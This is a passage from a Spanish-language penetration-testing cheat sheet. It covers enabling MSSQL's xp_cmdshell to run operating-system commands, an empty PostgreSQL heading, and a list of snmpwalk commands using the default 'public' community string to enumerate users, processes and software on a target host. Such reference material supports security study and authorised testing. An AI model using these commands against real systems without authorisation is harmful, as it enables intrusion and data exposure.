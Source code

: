 ```sql
1> SELECT name FROM master.sys.databases
2> go
```

####  4.4.6. <a name='ejecución-de-código'></a>Ejecución de código

En MSSQL gracias a la palabra clave `execute`, podemos ejecutar el comando arbitrario en el sistema operativo. Para hacer eso primero tenemos que habilitar la ejecución del comando dentro de la base de datos de la siguiente forma:

```sql
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

De esta forma, ya podemos ejecutar comandos:

```sql
EXECUTE xp_cmdshell 'whoami'
```
###  4.5. <a name='postgresql-(5432)'></a>POSTGRESQL (5432)

###  4.6. <a name='snmp-(161---udp)'></a>SNMP (161 - UDP)

El Protocolo Simple de Administración de Red, o SNMP por sus siglas en inglés, es un protocolo basado en UDP que, inicialmente, fue implementado de manera no muy segura. Cuenta con una base de datos (MIB) que almacena información relacionada con la red. El puerto predeterminado de SNMP es el 161 UDP. Hasta la tercera versión de este protocolo, SNMPv3, la seguridad de SNMP era deficiente. Existen diversas herramientas para interactuar con SNMP, ya que este protocolo puede proporcionarnos mucha información acerca de una organización, basándose en las respuestas del servidor. Algunas herramientas útiles incluyen _onesixtyone_ para realizar ataques de fuerza bruta básicos y enumeración, y _snmpwalk_ para acceder a los datos de la base de datos MIB.

La "cadena de comunidad SNMP" funciona como un ID de usuario o una contraseña que permite acceder a las estadísticas de un enrutador u otro dispositivo. Las cadenas de comunidad SNMP solo se utilizan en dispositivos que soportan los protocolos SNMPv1 y SNMPv2c. Por su parte, SNMPv3 utiliza autenticación mediante nombre de usuario/contraseña, junto con una clave de cifrado. De manera convencional, la mayoría de los dispositivos SNMPv1 y SNMPv2c que se envían de fábrica tienen la cadena de comunidad de solo lectura configurada como "public". Es una práctica estándar que los administradores de red cambien todas las cadenas de comunidad a valores personalizados durante la configuración del dispositivo.

```bash
sudo apt-get install snmp-mibs-downloader
```

```bash
snmpwalk -c public -v1 <RHOST>
snmpwalk -v2c -c public <RHOST> 1.3.6.1.2.1.4.34.1.3
snmpwalk -v2c -c public <RHOST> .1
snmpwalk -v2c -c public <RHOST> nsExtendObjects
snmpwalk -c public -v1 <RHOST> 1.3.6.1.4.1.77.1.2.25
snmpwalk -c public -v1 <RHOST> 1.3.6.1.2.1.25.4.2.1.2
snmpwalk -c public -v1 <RHOST> .1.3.6.1.2.1.1.5
snmpwalk -c public -v1 <RHOST> 1.3.6.1.4.1.77.1.2.3.1.1
snmpwalk -c public -v1 <RHOST> 1.3.6.1.4.1.77.1.2.27
snmpwalk -c public -v1 <RHOST> 1.3.6.1.2.1.6.13.1.3
snmpwalk -c public -v1 <RHOST> 1.3.6.1.2.1.25.6.3.1.2
snmpwalk -v2c -c public <IP> NET-SNMP-EXTEND-MIB::nsExtendOutputFull
```
